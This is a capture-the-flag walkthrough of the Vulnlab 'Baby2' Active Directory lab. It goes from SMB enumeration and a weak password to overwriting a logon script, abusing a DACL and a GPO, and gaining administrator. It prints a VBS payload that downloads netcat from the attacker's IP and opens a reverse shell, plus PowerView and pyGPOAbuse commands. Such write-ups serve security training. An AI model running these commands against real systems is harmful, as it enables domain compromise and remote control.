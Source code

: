 # Vulnlab - Baby2

```bash
PORT      STATE SERVICE      VERSION
53/tcp    open  domain       Simple DNS Plus
88/tcp    open  kerberos-sec Microsoft Windows Kerberos (server time: 2023-09-08 10:27:13Z)
135/tcp   open  msrpc        Microsoft Windows RPC
139/tcp   open  tcpwrapped           
389/tcp   open  tcpwrapped
|_ssl-date: TLS randomness does not represent time
| ssl-cert: Subject: commonName=dc.baby2.vl
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1::<unsupported>, DNS:dc.baby2.vl
| Issuer: commonName=baby2-CA
| Public Key type: rsa       
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2023-08-22T17:39:15
| Not valid after:  2024-08-21T17:39:15
| MD5:   86833092b739d099392a9fba548ca41d
|_SHA-1: 595b9978c2e36c712b4875ff45b40efc72657d3f
445/tcp   open  tcpwrapped           
3269/tcp  open  tcpwrapped
|_ssl-date: TLS randomness does not represent time
| ssl-cert: Subject: commonName=dc.baby2.vl 
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1::<unsupported>, DNS:dc.baby2.vl   
| Issuer: commonName=baby2-CA                                     
| Public Key type: rsa            
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2023-08-22T17:39:15
| Not valid after:  2024-08-21T17:39:15
| MD5:   86833092b739d099392a9fba548ca41d
|_SHA-1: 595b9978c2e36c712b4875ff45b40efc72657d3f
3389/tcp  open  tcpwrapped
| ssl-cert: Subject: commonName=dc.baby2.vl
```

Enumerating smb shares with null authentication

<img src="https://i.imgur.com/iwh9V3j.png"/>
From `homes` share, we can find some directories for users

<img src="https://i.imgur.com/rCHltWz.png"/>

Also from `apps` share there's `login.vbs.lnk`

<img src="https://i.imgur.com/U86Xlkn.png"/>

With kerbrute we can verify these users also check if pre-authentication is disabled for AS-REP roasting

<img src="https://i.imgur.com/CCnOfDi.png"/>
From `NETLOGON` there's the login.vbs but it doesn't really seemed useful

<img src="https://i.imgur.com/YHBmO9k.png"/>

# Foothold (Amelia)

From the users, there's library which seems odd, on trying to login with the password `library` it shows that's a valid login

<img src="https://i.imgur.com/geyjqwp.png"/>

This user has READ access on SYSVOL share

<img src="https://i.imgur.com/iferM0F.png"/>

Also running bloodhound to enumerate domain

```bash
python3 /opt/BloodHound.py/bloodhound.py -d 'baby2.vl' -u 'library' -p 'library' -c all -ns 10.10.105.23
```

<img src="https://i.imgur.com/Y8HWO8w.png"/>

This user didn't had any ACLs but running the `shortest path to high value targets` ,  members of `LEGACY` group has `WriteDacl` on `GPOADM` which further has `GenericAll` on `Group Policy Object (GPO)`

<img src="https://i.imgur.com/s5P6q4Q.png"/>

But for now we need to focus on logon script, even tho from the output of crackmapexec, it showed that we only have READ access on SYSVOL, we can still overwrite the login.vbs file from scripts folder, just point the network share to our IP

<img src="https://i.imgur.com/6rvCTqy.png"/>

Have responder or smbserver ready and upload the file 

<img src="https://i.imgur.com/dQa7HVg.png"/>

On responder, we'll receive the NTLMv1 hash of `Amelia`

<img src="https://i.imgur.com/wwMsSh2.png"/>
But I wasn't able to crack this hash, instead we can just modify the vbs script to get a reverse shell

```vb
 Set oShell = CreateObject("Wscript.Shell")
 oShell.run "cmd.exe /c curl 10.8.0.136/nc64.exe -o C:\Windows\Temp\nc64.exe"
oShell.run "cmd.exe /c C:\Windows\Temp\nc64.exe 10.8.0.136 2222 -e cmd.exe"
```

<img src="https://i.imgur.com/dzHBcYj.png"/>

<img src="https://i.imgur.com/I37QCPk.png"/>

Check in which groups amelia belongs to 

<img src="https://i.imgur.com/19T5Ed8.png"/>

This account is a member of legacy group, meaning that we can abuse WriteDACL on GPOADM, with `PowerView` granting GenericAll on GPOADM

```bash
Add-DomainObjectAcl -Rights 'All' -TargetIdentity "GPOADM" -PrincipalIdentity "Amelia.Griffiths" -Verbose
```

<img src="https://i.imgur.com/ER8RoPp.png"/>
Now we can change the password for GPOADM

```powershell
$UserPassword = ConvertTo-SecureString 'Password123!' -AsPlainText -Force
Set-DomainUserPassword -Identity GPOADM -AccountPassword $UserPassword
```

<img src="https://i.imgur.com/1BdrGsj.png"/>
<img src="https://i.imgur.com/sD0oITq.png"/>

Using pyGPOAbuse https://github.com/Hackndo/pyGPOAbuse, we can create immediate scheduled task which will get executed as SYSTEM user to add GPOADM in local administrators group (for this I had to use python virtual environment as some dependencies were causing an issue with the current impacket version), we'll need the GPO ID for creating the task

<img src="https://i.imgur.com/6LMSME5.png"/>

```bash
 python3 pygpoabuse.py baby2.vl/GPOADM:'Password123!' -gpo-id "31B2F340-016D-11D2-945F-00C04FB984F9" -command 'net localgroup administrators GPOADM /add' -f
```

<img src="https://i.imgur.com/YYjC6iJ.png"/>

Wait for few seconds for the created task to be executed, we'll see GPOADM being a part of administrators group

<img src="https://i.imgur.com/3Ey6wZN.png"/>

Now we can login through WinRM

<img src="https://i.imgur.com/P5rnhWd.png"/>

# References

- https://github.com/Hackndo/pyGPOAbuse
- https://www.thehacker.recipes/ad/movement/group-policies
